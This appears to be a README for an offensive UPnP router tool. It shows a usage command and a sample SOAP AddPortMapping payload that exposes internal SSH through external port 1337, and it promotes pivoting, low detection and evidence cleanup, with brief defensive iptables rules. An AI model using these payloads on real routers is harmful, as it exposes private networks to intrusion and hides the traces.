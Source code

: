 # UPnP Portmapper Exploit Tool 🔥

**A stealthy UPnP router exploitation tool for bypassing NAT/firewalls**

## Core Functionality
- **Automated UPnP exploitation** via SOAP requests
- **Multi-threaded** port scanning (8 threads)
- **Proxy-aware** (127.0.0.1:8080)
- **Self-cleaning** (removes port mappings post-scan)

## Target Ports
```python
['21', '22', '23', '80', '443', '8080', '139', '445', '135', '3389', '110', '25']
```

Attack Vectors

Technique	SOAP Action	Risk

Port Forwarding	AddPortMapping - High
Firewall Bypass	NAT traversal via UPnP - Critical
Service Exposure	Internal → External port mapping - Medium

Usage
```bash
python3 upnp_control.py <router_ip> <network_prefix>
# Example:
python3 upnp_control.py external_ip local_ip
```

Exploit Workflow

Recon
    Identifies UPnP service on port 49152

Weaponize
    Injects port mapping rules via SOAP

Verify
    Checks if ports are externally accessible

Cleanup
    Removes evidence via DeletePortMapping

Red Team Benefits
    Internal network pivoting
    RDP/SSH/SMB exposure
    Low detection rate (legitimate UPnP traffic)

Blue Team Countermeasures
```bash
# Disable UPnP on routers:
iptables -A INPUT -p tcp --dport 1900 -j DROP
iptables -A INPUT -p udp --dport 1900 -j DROP
```
Sample SOAP Payload
```xml
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewRemoteHost>{target}</NewRemoteHost>
      <NewExternalPort>1337</NewExternalPort>
      <NewProtocol>TCP</NewProtocol>
      <NewInternalPort>22</NewInternalPort>
      <NewInternalClient>192.168.1.100</NewInternalClient>
    </u:AddPortMapping>
  </s:Body>
</s:Envelope>
```
⚠️ Warning: Use only on authorized systems. UPnP exploitation may violate security policies.
